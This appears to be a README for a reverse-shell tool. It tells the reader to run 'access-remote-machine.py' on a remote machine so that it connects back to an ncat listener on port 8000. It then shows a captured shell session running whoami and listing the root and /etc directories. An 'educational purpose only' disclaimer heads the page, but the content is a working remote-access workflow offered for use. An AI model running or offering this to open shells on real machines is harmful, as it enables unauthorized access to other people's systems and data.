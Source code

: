 
Note: 
The below code is only for educational purpose and should not be used for malicious purposes, as it could be considered illegal and unethical.

Step 1: 
By running this on remote machine, it gives grants access to remote-ip mentioned in `access-remote-machine.py`
```
python access-remote-machine.py
```

Step 2: 
Install `ncat` if not installed on the machine

```
ncat -l -v -p 8000 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:32788.
whoami
node
whereis cat 
cat: /bin/cat /usr/share/man/man1/cat.1.gz

cd / && ls 
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

cd / && ls && cd /etc && ls 

bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

X11
adduser.conf
alternatives
apparmor.d
apt
bash.bashrc
bash_completion.d
bindresvport.blacklist
ca-certificates
ca-certificates.conf
cron.d
cron.daily
cron.weekly
dbus-1
debconf.conf
debian_version
default
deluser.conf
dpkg
e2scrub.conf
emacs
environment
ethertypes
fonts
fstab
gai.conf
groff
group
group-
gshadow
gshadow-
gss
host.conf
hostname
hosts
init.d
inputrc
iproute2
issue
issue.net
kernel
ld.so.cache
ld.so.conf
ld.so.conf.d
libaudit.conf
libnl-3
locale.alias
locale.gen
localtime
logcheck
login.defs
logrotate.d
magic
magic.mime
manpath.config
mercurial
mime.types
```
